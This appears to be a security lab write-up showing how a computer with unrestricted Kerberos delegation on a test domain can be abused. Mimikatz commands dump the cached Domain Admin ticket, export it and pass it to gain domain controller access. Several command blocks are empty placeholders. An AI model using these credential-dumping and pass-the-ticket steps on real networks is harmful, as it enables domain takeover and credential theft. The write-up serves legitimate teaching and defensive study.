






# Domain Compromise via Unrestricted Kerberos Delegation

This lab explores security impact of a domain computer that has unrestricted kerberos delegation rights assigned.

## Overview

* Unrestricted kerberos delegation is a privilege that can be assigned to a domain computer
* Usually, this privilege is given to computers running services like IIS, MSSQL, etc.
* Those services usually require access to some back-end database so it can read/modify the database on the authenticated user's behalf
* A computer which has the kerberos delegation privilege turned on, can impersonate any user that authenticates to any service running on that computer

All of the above means that once a users authenticates to a service on a host with kerberos delegation enabled, it caches user's TGT so it can be impersonated when/if required when relaying user's request to another server or service.

Essentially this looks like so:  
`User` &lt;---authenticates --&gt; `IIS server` &lt;---authenticates on behalf of the user---&gt; `DB server`

## Quick Setup

Add a new domain user, whic is going to be an IIS service account - `iis_svc`:


Give it a servicePrincipalName:

```text
command here
```

Let's create a new IIS application pool running under our newly created user `offense\iis_svc`:



Let's give our victim computer IIS01 \(Windows 2012R2 server running IIS\) unrestricted delegation privilege:


To confirm/find computers on a domain that have unrestricted kerberos delegation property set:

```csharp
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
```

We can see our victim computer `IIS01` with `TrustedForDelegation` field set to `$true`:


## Execution

On the computer IIS01 with kerberos delgation rights, let's do a base run of mimikatz to see what we have:



Note that we do not have a TGT for `offense\administrator` \(a Domain Admin\) just yet.

Let's now send an HTTP request to IIS01 from a DC01 host from the context of offense\administrator:

```csharp
Invoke-WebRequest http://iis01.offense.local -UseDefaultCredentials -UseBasicParsing
```

We see the request got a HTTP 200 OK:


Let's check a victim host IIS01 for any new kerberos tickets now:

```text
mimikatz # sekurlsa::tickets
```



We can see that the IIS01 has now a TGT for offense\administrator!

Let's export the tickets, so we can import the domain admin ticket into the current session::

```csharp
mimikatz::tickets /export
```



Before we proceed with ticket imports, let's try PSRemoting to a DC from IIS01 and check the current kerberos tickets available to the logon session:



Above screenshow shows that there are no tickets and PSSession could not be established -  as expected.

Let's now proceed and import the previously dumped TGT into our current logon session on the IIS01 host:

```csharp
mimikatz # kerberos::ptt C:\Users\Administrator\Desktop\mimikatz\[0;3c785]-2-0-40e10000-Administrator@krbtgt-OFFENSE.LOCAL.kirbi
```


Once the TGT is imported on IIS01, let's check abailable tickets and try connecting to the DC01 again:



As you can see from the above screengrab, the IIS01 system now contains a krbtgt for offense\administrator, which now enables this session to access DC C$ share and establish a PSSession and have console access to the domain controller.

## References







